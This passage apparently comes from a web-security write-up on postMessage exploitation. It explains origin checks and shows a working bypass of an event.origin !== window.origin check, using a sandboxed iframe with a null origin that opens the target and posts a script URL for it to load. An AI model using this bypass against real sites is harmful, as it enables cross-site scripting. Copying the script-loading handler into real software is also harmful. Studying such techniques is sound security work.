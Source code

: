 Notice the second parameter of `postMessage`, it's called [`targetOrigin`](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage#targetorigin), which specifies the origin of the recipient (`http://foo.com`) window. If it's string `*`, all origins can receive the sender's messages, which allows malicious sites to leak the sender's messages.

To prevent arbitrary origins can send messages to the recipient window, the recipient must verify the message event's [`origin`](https://developer.mozilla.org/en-US/docs/Web/API/MessageEvent/origin). Example:

```javascript
window.addEventListener('message', (event) => {
    // sender's origin must be 'http://example.com'
    if (event.origin !== 'http://example.com') return;

    const script = document.createElement('script');
    script.src = event.data.siteExampleSource;
    document.body.append(script);
});
```

#### `postMessage` Exploitation: Opaque Origin

In the application, the `message` event handler will verify the sender's origin:

```javascript
export default function Whiteboard() {
  [...]
  useEffect(() => {
    utils.functions.handleMessages((event) => {
      if (event.origin !== window.origin) return;
      [...]
    });
    [...]
  }, []);
  [...]
}
```

In here, the sender's origin must be the current window's origin.

Luckily, this can be bypassed via an [opaque origin](https://html.spec.whatwg.org/multipage/browsers.html#concept-origin-opaque) (`null` origin): [https://book.jorianwoltjer.com/web/client-side/cross-site-scripting-xss/postmessage-exploitation#bypassing-window.origin-using-null-origin](https://book.jorianwoltjer.com/web/client-side/cross-site-scripting-xss/postmessage-exploitation#bypassing-window.origin-using-null-origin).

If an `<iframe>` element has attribute `sandbox`, and the value doesn't have `allow-same-origin`, the `<iframe>`'s origin will be `null`. ([https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-sandbox](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-sandbox))

We can then use the `<iframe>`'s `srcdoc` attribute to open a new window to the target page. Since `window.open` will inherit the current window's origin, the newly opened window's origin will be `null`.

```javascript
const frame = document.createElement('iframe');
frame.sandbox = 'allow-scripts allow-popups allow-modals allow-top-navigation';

frame.srcdoc = `
<script>
const w = window.open('http://foo.com');

setTimeout(() => {
  w.postMessage({ 'siteExampleSource': 'http://example.com/main.js' }, '*');
}, 1000);
<\/script>
`;
document.body.appendChild(frame);
```